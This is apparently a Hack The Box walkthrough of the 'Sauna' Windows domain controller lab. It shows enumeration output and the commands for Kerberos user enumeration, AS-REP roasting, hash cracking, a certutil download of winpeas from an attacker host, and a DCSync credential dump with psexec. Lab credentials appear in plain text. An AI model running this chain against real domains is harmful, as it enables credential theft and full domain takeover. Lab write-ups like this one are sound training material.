




# Sauna
## Enumeration
- `nmap`
```
└─$ nmap -Pn -sC -sV 10.10.10.175 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 17:36 BST
Nmap scan report for 10.10.10.175 (10.10.10.175)
Host is up (0.11s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-28 23:35:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m29s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-06-28T23:36:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.94 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.175 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x asp,aspx  
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.175
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              aspx,asp
[+] Timeout:                 10s
===============================================================
2023/06/28 18:47:01 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 150] [--> http://10.10.10.175/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.175/Images/]
/css                  (Status: 301) [Size: 147] [--> http://10.10.10.175/css/]
/fonts                (Status: 301) [Size: 149] [--> http://10.10.10.175/fonts/]
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.10.175/IMAGES/]
/Fonts                (Status: 301) [Size: 149] [--> http://10.10.10.175/Fonts/]
/CSS                  (Status: 301) [Size: 147] [--> http://10.10.10.175/CSS/]
```
- `smbclient` found nothing
```
└─$ smbclient -N -L //10.10.10.175
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.175 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
- Web server



- `ldapsearch`
```
└─$ ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
```
└─$ ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
# extended LDIF
#
# LDAPv3
# base <DC=EGOTISTICAL-BANK,DC=LOCAL> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# EGOTISTICAL-BANK.LOCAL
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20230628233031.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A==
uSNChanged: 98336
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAAGAAAAAAAAAEbG/1RIhXVKvwnC1AVq4o8WgAEAAAAAAJZTr
 RoDAAAAq4zveNFJhUSywu2cZf6vrQzgAAAAAAAAKDj+FgMAAADc0VSB8WEuQrRECkAJ5oR1FXABAA
 AAAADUbg8XAwAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAANDwChUDAAAAm/DFn2wdfEWLFfovGj4
 TThRgAQAAAAAAENUAFwMAAABAvuCzxiXsRLK5n/hcRLLsCbAAAAAAAADUBFIUAwAAAA==
creationTime: 133324686314808354
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG
serverState: 1
uASCompat: 1
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name
 ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT
 ISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E
 GOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC
 AL-BANK,DC=LOCAL
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA
 L-BANK,DC=LOCAL
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D
 C=LOCAL
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: EGOTISTICAL-BANK

# Users, EGOTISTICAL-BANK.LOCAL
dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL

# Computers, EGOTISTICAL-BANK.LOCAL
dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL

# Domain Controllers, EGOTISTICAL-BANK.LOCAL
dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL

# System, EGOTISTICAL-BANK.LOCAL
dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL

# LostAndFound, EGOTISTICAL-BANK.LOCAL
dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL

# Infrastructure, EGOTISTICAL-BANK.LOCAL
dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL

# ForeignSecurityPrincipals, EGOTISTICAL-BANK.LOCAL
dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL

# Program Data, EGOTISTICAL-BANK.LOCAL
dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL

# NTDS Quotas, EGOTISTICAL-BANK.LOCAL
dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL

# Managed Service Accounts, EGOTISTICAL-BANK.LOCAL
dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL

# Keys, EGOTISTICAL-BANK.LOCAL
dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL

# TPM Devices, EGOTISTICAL-BANK.LOCAL
dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL

# Builtin, EGOTISTICAL-BANK.LOCAL
dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL

# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL

# search reference
ref: ldap://ForestDnsZones.EGOTISTICAL-BANK.LOCAL/DC=ForestDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL

# search reference
ref: ldap://DomainDnsZones.EGOTISTICAL-BANK.LOCAL/DC=DomainDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL

# search reference
ref: ldap://EGOTISTICAL-BANK.LOCAL/CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOC
 AL

# search result
search: 2
result: 0 Success

# numResponses: 19
# numEntries: 15
# numReferences: 3
```
- DNS


- We so far we have nothing
  - We can try enumerating users via Kerberos on port `88` 
  - Let's use [kerbrute](https://github.com/ropnop/kerbrute)
  - `kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`


- We get several usernames
  - Yet it takes a while to run
  - So I as soon as I saw username policy, where `fsmith` is Fergus Smith
  - Check the website for other possible usernames
  - So let's create a user list
  - I also added `sauna` as it's a box name


## Foothold
- Since we have a user list
  - We can try to check for [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
  - `impacket-GetNPUsers  EGOTISTICAL-BANK.local/ -dc-ip 10.10.10.175 -usersfile user.list -format hashcat -no-pass`


- Let's crack the hash
  - `hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt`
  - `fsmith:Thestrokes23`


- We can use `evil-winrm` to connect


## User
- Enumerate for privesc
  - Download `winpeas`: `certutil -urlcache -f http://10.10.16.7:8000/winpeas.exe winpeas.exe`
  - There are 3 users: `hsmith`, `fsmith`, `svc_loanmgr`
  - And we found autologon creds for `svc_loanmgr:Moneymakestheworldgoround!`





- Use creds to connect as `svc_loanmgr` to the box via `evil-winrm`
## Root
- Enumerate for privesc
  - Found nothing using `winpeas`
  - So I ran `bloodhound` to gather domain info
  - `bloodhound-python -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -dc SAUNA.EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175 -c all --zip`
  - Start `neo4j`: `sudo neo4j start`
  - Start `bloodhound`


- We can see that `svc_loanmgr` can perform `dcsyns`


- Let's exploit that
  - `impacket-secretsdump 'svc_loanmgr:Moneymakestheworldgoround!'@10.10.10.175`



- Use hashes to connect using `psexec`
  - Rooted


